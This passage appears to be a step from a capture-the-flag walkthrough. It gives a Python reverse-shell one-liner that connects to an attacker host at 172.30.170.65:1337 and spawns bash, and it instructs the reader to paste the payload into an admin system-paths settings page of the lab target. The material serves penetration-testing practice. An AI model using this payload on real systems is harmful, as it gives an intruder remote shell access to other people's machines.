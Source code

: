 ![py-payload.png](./img/py-payload.png)

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("172.30.170.65",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

> **STEP: 1**
> 
- Paste this python payload here.
    - `http://severnaya-station.com/gnocertdir/admin/settings.php?section=systempaths`
